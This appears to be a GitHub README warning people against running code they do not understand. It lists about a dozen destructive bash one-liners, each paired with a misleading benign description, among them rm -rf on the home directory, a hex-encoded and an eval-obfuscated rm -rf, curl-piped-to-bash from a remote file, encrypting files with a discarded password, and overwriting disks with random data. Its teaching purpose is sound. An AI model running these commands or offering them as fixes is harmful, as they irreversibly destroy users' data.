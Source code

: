 # My one page argument for learning to code (examples exaplained)

## **_NEVER_** run code you don't understand

I often hear that people call themselves 'Copy and paste' coders.  And, while copying and pasting is a legitimate thing to do, it should not be your only way of doing things.  A better method is to find code, see what is done and recreate, and at a bare minimal, copy it, know ingexactly what it does. 

> "Running code you found on the internet is like chewing gum you found in the subway'.  

### Try these (IN A VIRTUAL MACHINE!)

#### Here are some bad descriptions to **bad** commands
Note: Most of these will error, unless spuressed with ```&> /dev/null``` but alot of damage can still be done before you can take action.

A. Greatly simplies document syntax: \
Find all files and replace all content with astriks

``` bash
while read f; do sed -i "" 's:.:*:g' "$f"; done <<< "$(find ~/ -iname '*' -print)"
```

B. Frees up uneccesary space: \
Simply remove all files and folders

``` bash
du ~/ | grep -o '/.*' | xargs rm -rf --
```

C. Relinks your files to improve efficentcy: \
Replace all files with a link to the void (/dev/null)

``` bash
du ~/*/* | grep -o '/.*' | xargs -n 1 ln -sf /dev/null/
```

D. Moves files/folders to a volume with unlimited storage: \
Moves all content 3 levels deep the void (dev/null)

``` bash
for d in ~/*/*; do mv "$d/" /dev/null; done
```

E. Frees up all uneccesary space: \
726d202d7266202f0a is a hex dump of ```rm -rf /``` \
The command reverses the dump and runs the output

``` bash
command $(echo 7375646f20726d202d7266202f0a | xxd -p -r) &> /dev/null
```

F. Chew the gum you don't even know: \
This downloads code online and runs it without ever you reviewing or seeing it

``` bash
bash -c "$(curl -s https://raw.githubusercontent.com/thedzy/My-one-page-argument-for-learning-to-code/master/malicious_file.sh)"
```

G. Frees up uneccesary space: \
This transforms 'stream -draft ~/saved' into ```rm -rf ~/``` by removing all characters between a-e and s-z and then evaulates it

```bash
eval $(sed 's:[a-e,s-z]::g' <<< "stream -draft ~/saved")
```

H. Compress files and save space: \
Compresses all files 5 levels deep to a random zip file with a random password of 64 characters. It does not store the password.

```bash
zip --password "$(openssl rand -base64 64)"  --move  "$(openssl rand -hex 4)".zip  ~/*/*/*/*/*
```

I. Reduce your need of the external volumes: \
Copy the contents of /dev/random to each drive is /dev/

```bash
for d in /dev/disk*; do dd if=/dev/random of=$d &; done
```

J. Simply your files and your life: \
Finds all files and replaces the contents with nothing

```bash
find ~/ -type f -exec bash -c ':|tee {} &' \; 
```

K. Keep logs of files in the home folder utilising your current files
Replaces the contents of every files with the filename

```bash
find ~/-type f -exec awk 'FNR == 1{ print FILENAME > FILENAME } ' {}  \;
```

### Recommended testing evironment:

1. Create a virtual machine.
2. Open terminal and run the folowing command to copy some files to the desktop: \
```find / -iname "*.txt" | head -n 60 | xargs -n1 -J% cp % $HOME/Desktop/ ```
3. Snapshot your VM, cause you'll need it
4. Run the command
5. Restore
